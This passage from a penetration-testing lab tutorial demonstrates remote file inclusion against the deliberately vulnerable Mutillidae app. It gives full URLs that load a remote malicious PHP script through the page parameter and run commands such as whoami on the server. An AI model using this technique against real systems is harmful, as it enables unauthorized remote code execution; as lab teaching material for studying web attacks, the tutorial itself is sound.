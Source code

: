       ![A PHP script is displayed.](Images/RFI5.png) 
 
   - Let's now check whether we can use this webpage as the new remote resource.

    - Return to the browser and change the URL to the following: <http://192.168.13.27/mutillidae/index.php?page=https://tinyurl.com/y498epmz>.
  
      ![An arrow points to the remote malicious script at the end of the URL.](Images/RFI6.png)
  
   - Press Enter. Similar to the LFI demonstration, nothing happens, as expected. We need to add a parameter to the URL to run command-line scripts. This works a little differently than the LFI script.
  
   - To run a command-line script, we have to add a second parameter with an ampersand `&`.

     - For example, if we want to run the `whoami` command, we add the second parameter as follows: <http://192.168.13.27/mutillidae/index.php?page=https://tinyurl.com/y498epmz&cmd=whoami>.
  
        ![The new URL features the first and second parameters.](Images/RFI7.png)

   - Run the command. The webpage displays the results of the `whoami` command run against the web server: `www-data`.
  
      ![The Mutillidae webpage features text that says "www-data www-data."](Images/RFI8.png) 
 
